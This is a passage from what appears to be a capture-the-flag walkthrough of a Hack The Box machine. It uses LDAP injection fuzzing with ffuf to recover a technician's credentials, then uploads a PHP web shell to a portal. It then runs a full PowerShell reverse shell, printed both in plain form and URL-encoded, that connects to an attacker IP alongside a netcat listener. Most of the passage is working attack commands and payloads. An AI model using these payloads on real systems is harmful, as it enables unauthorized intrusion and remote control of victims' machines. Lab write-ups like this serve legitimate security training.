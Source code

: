 **The goal of LDAP injection attacks is to inject LDAP search filters metacharacters in a query which will be executed by the application**.

> [PayloadsAllTheThings: LDAP Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection)

```bash
# performing LDAP injection manually
$ ffuf -u "http://internal.analysis.htb/users/list.php?name=technician)(description=FUZZ*))%00"  -w /usr/share/wordlists/seclists/Fuzzing/alphanum-case-extra.txt -c -ac -fw 1
```

- The above works until it hits the `*`.
- How did we enumerate the `description` field?

> Creds: `technician:97NTtl*4QP96Bv`

After logging into the portal, we notice that we can upload files to it via the "*SOC Report*" tab:

![](revshell_upload.png)

We can open a listener, upload a PHP reverse shell generated via [revshells](https://www.revshells.com/), and then visit the appropriate directory (which should be the `dashboard/uploads/<revshell>` that we found earlier):

```bash
# webshell's contents
$ cat revshell.php
<?php system($_GET['c']); ?>

# opening a listener to catch the shell
$ nc -lnvp 1337
listening on [any] 1337 ...
```

![](svc_web_shell.png)

Now, we can create a PowerShell-based reverse shell, URL-encode it, and pass it as a command:

```bash
# our reverse PowerShell
$ cat revps
powershell -ep bypass -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.16',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush();}$client.Close();"
```

Next, we can **URL-encode** our shell via [CyberChef](https://gchq.github.io/CyberChef):

![](cyberchef.png)

```bash 
# URL-encoded payload
powershell%20%2Dep%20bypass%20%2Dnop%20%2Dc%20%22%24client%20%3D%20New%2DObject%20System%2ENet%2ESockets%2ETCPClient%28%2710%2E10%2E14%2E16%27%2C1337%29%3B%24stream%20%3D%20%24client%2EGetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200%2E%2E65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream%2ERead%28%24bytes%2C%200%2C%20%24bytes%2ELength%29%29%20%2Dne%200%29%7B%24data%20%3D%20%28New%2DObject%20%2DTypeName%20System%2EText%2EASCIIEncoding%29%2EGetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out%2DString%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29%2EPath%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext%2Eencoding%5D%3A%3AASCII%29%2EGetBytes%28%24sendback2%29%3B%24stream%2EWrite%28%24sendbyte%2C0%2C%24sendbyte%2ELength%29%3B%24stream%2EFlush%28%29%3B%7D%24client%2EClose%28%29%3B%22
```
